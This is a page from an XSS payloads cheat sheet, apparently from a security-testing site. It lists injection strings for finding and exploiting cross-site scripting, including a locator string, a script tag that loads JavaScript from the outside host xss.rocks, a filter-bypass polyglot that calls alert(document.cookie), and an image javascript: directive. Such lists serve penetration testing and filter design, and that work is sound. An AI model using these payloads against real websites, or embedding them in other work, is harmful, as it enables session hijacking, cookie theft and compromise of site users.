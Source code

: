 ```yaml
---
id: 37
title: XSS Payloads Cheat Sheet
date: 2017-02-07T14:40:47+00:00
author: Robbie
layout: page
guid: https://xsses.rocks/?page_id=2
---
```

## <span id="XSS_Locator_.28short.29" class="mw-headline">XSS Locator (short)</span>

If you don&#8217;t have much space and know there is no vulnerable JavaScript on the page, this string is a nice compact XSS injection check. View source after injecting it and look for <XSS verses <XSS to see if it is vulnerable:

<pre>'';!--"&lt;XSS&gt;=&{()}
</pre>

## <span id="No_Filter_Evasion" class="mw-headline">No Filter Evasion</span>

This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):

<pre>&lt;SCRIPT SRC=http://xss.rocks/xss.js&gt;&lt;/SCRIPT&gt;
</pre>

## <span id="Filter_bypass_based_polyglot" class="mw-headline">Filter bypass based polyglot</span>

<pre>'"&gt;&gt;&lt;marquee&gt;&lt;img src=x onerror=confirm(1)&gt;&lt;/marquee&gt;"&gt;&lt;/plaintext\&gt;&lt;/|\&gt;&lt;plaintext/onmouseover=prompt(1)&gt;
&lt;script&gt;prompt(1)&lt;/script&gt;@gmail.com&lt;isindex formaction=javascript:alert(/XSS/) type=submit&gt;'--&gt;"&gt;&lt;/script&gt;
&lt;script&gt;alert(document.cookie)&lt;/script&gt;"&gt;
&lt;img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)&gt;'"&gt;
&lt;img src="http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg"&gt;</pre>

## <span id="Image_XSS_using_the_JavaScript_directive" class="mw-headline">Image XSS using the JavaScript directive</span>

Image XSS using the JavaScript directive (IE7.0 doesn&#8217;t support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:

<pre>&lt;IMG SRC="javascript:alert('XSS');"&gt;
</pre>
